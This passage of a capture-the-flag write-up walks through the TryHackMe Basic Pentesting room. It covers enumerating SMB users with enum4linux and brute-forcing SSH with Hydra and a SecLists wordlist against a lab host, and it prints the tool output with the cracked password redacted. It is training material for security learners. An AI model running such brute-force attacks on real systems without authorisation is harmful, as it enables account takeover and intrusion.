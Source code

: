 ![development_directory][6]

in dev.txt we get
```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
This corresponds to what we saw in the nmap scan with the Apache version and SMB being available.
In j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
So seeing that information we know what to look for with J & K in bruteforcing.

##### 4. User brute-forcing to find the username & password
###### 5. What is the username?
###### 6. What is the password?
Lets give a look at the enum4Linux script to see what we have available.  Scrolling down to enumerating users we see this:
```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
Luckily that gives us a user (jan) to then bruteforce. I know from different resources that Hydra is a good resource to crack SSH with wordlists. I also use [SecLists](7) here as it has more options than the regular rockyou.txt
`hydra -l jan -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt [webappIP] ssh
`
After running for a bit we get the output
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-03-17 15:52:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking ssh://10.10.68.148:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 9823 to do in 00:56h, 16 active
[STATUS] 119.33 tries/min, 358 tries in 00:03h, 9643 to do in 01:21h, 16 active
[STATUS] 116.86 tries/min, 818 tries in 00:07h, 9183 to do in 01:19h, 16 active
[STATUS] 113.20 tries/min, 1698 tries in 00:15h, 8303 to do in 01:14h, 16 active
[22][ssh] host: 10.10.68.148   login: jan   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
```
##### 7. What service do you use to access the server

[1]: https://tryhackme.com/room/basicpentesting
[2]: https://tryhackme.com/access
[3]: https://nmap.org/
[4]: https://ippsec.rocks/#
[5]: https://github.com/OJ/gobuster
[6]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/Basic_Webapp/resources/webapp_80_files.png
[7]: https://github.com/danielmiessler/SecLists
[8]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[9]: https://github.com/magnumripper/JohnTheRipper
[10]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/Basic_Webapp/resources/webapp_ssh_kay.png